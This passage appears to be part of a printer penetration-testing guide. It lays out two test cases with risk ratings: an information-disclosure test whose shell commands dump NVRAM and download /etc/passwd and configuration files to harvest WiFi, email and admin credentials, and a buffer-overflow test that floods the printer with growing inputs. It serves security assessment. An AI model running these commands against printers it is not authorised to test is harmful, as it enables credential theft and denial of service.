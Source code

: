 **Risk Level**: 🟠 HIGH

---

### Test 5: Information Disclosure

**Objective**: Test what information can be extracted

```bash
# Gather all information
> id
> network
> info config
> variables
> nvram dump
> download /etc/passwd
> download /etc/config.xml
```

**Sensitive Information:**
- ✅ Network credentials
- ✅ WiFi passwords
- ✅ SNMP community strings
- ✅ Email credentials
- ✅ Admin passwords
- ✅ Print job history

**Risk Level**: 🟠 HIGH

---

### Test 6: Buffer Overflow

**Objective**: Test for buffer overflow vulnerabilities

```bash
# Test with increasing sizes
> flood 1000
> flood 10000
> flood 50000
> flood 100000

# Monitor printer behavior
> status
> info status
```

**Vulnerable if:**
- ✅ Printer crashes
- ✅ Printer hangs
- ✅ Printer reboots
- ✅ Error messages displayed

**Risk Level**: 🟠 MEDIUM

---
